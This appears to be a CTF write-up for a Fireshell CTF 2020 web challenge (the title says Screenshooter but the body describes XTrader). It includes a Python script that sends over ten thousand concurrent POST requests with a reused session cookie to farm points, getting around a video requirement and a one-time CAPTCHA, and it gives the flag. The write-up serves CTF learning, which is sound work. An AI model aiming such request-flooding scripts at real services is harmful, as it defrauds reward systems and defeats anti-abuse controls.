 # FireshellCTF2020_Screenshooter - Write-up
Web challenge solved during Fireshell CTF 2020 (by Ganesh - USP)

## Challenge description
``` 
https://xtrader.fireshellsecurity.team/
```

## Write-up
We had to reach 10000 points to buy the flag in the website. After watching a video, we were given 1 point. We only had 600 seconds to reach 10000.

By analysing the page's Javascript, we saw that it made `POST` requests to `/points.php`. When we tried to directly make the request, we were redirected to a CAPTCHA page before really making the request. However, after doing this once, we didn't have to do it again. With this in mind, we created a Python script to automate the process of making requests and getting points really fast. 

``` python
import asyncio
import requests

COOKIES = { 'PHPSESSID': '<minha_sess_id_no_site>', }
DATA = {'points' : '1', 'solved' : 'true'} # não é possível ganhar vários pontos de uma vez
HEADERS = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'Sec-Fetch-Dest': 'empty',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.106 Safari/537.36',
    'DNT': '1',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Origin': 'https://xtrader.fireshellsecurity.team',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'cors',
    'Referer': 'https://xtrader.fireshellsecurity.team/',
    'Accept-Language': 'pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7,ja;q=0.6',
}

def fetch():
   requests.post('https://xtrader.fireshellsecurity.team/points.php', headers=HEADERS, cookies=COOKIES, data=DATA)

async def main():
    loop = asyncio.get_event_loop()
    futures = [
        loop.run_in_executor(
            None, 
            fetch
        )
        for i in range(10100)
    ]
    for response in await asyncio.gather(* futures):
        pass

loop = asyncio.get_event_loop()
loop.run_until_complete(main())
```
_[Link to .py file here](https://github.com/Haltz01/CTFs_Writeups/blob/master/2020_FireshellCTF/XTrader/req.py)_

We let the script run until we had 10000 points (it took us around 400 seconds - not great but more than enough) and then we bought the flag!

<img src="https://github.com/Haltz01/CTFs_Writeups/blob/master/2020_FireshellCTF/XTrader/flagObtainedYey.png" alt="Getting the flag yey" />

**Flag:** `F#{d0nt_trus7_f1r3w4lls-hckdbyadn}`